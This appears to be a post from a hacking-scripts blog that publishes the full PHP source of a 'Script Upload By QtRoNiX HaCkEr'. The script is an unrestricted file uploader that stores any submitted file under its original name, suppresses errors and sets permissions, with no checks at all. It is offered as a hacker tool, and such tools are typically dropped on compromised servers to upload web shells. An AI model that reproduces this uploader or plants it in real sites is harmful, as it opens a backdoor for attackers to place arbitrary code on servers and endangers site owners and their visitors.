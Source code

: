```yaml
---
id: 205
title: Script Upload By QtRoNiX HaCkEr
author: admin
layout: post
guid: http://hackingscripts.com/?p=205
permalink: /script-upload-by-qtronix-hacker/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

A simple uploader script by QtRoNiX HaCkEr.


### Script Upload By QtRoNiX HaCkEr Source Code

{% highlight php %}<?php
echo '&lt;center&gt;&lt;font color="Red" size="4"&gt;';
/// Script Upload By QtRoNiX HaCkEr \\\
if(isset($_POST['Submit'])){
	$filedir = ""; 
	$maxfile = '2000000';
	$mode = '0644';
	$userfile_name = $_FILES['image']['name'];
	$userfile_tmp = $_FILES['image']['tmp_name'];
	if(isset($_FILES['image']['name'])) {
		$qx = $filedir.$userfile_name;
		@move_uploaded_file($userfile_tmp, $qx);
		@chmod ($qx, octdec($mode));
echo"&lt;center&gt;&lt;b&gt;Done ==&gt; $userfile_name&lt;/b&gt;&lt;/center&gt;";
}
}
else{
echo'&lt;form method="POST" action="#" enctype="multipart/form-data"&gt;&lt;input type="file" name="image"&gt;&lt;br&gt;&lt;input type="Submit" name="Submit" value="Upload"&gt;&lt;/form&gt;';
}
echo '&lt;/center&gt;&lt;/font&gt;';
?>
{% endhighlight %}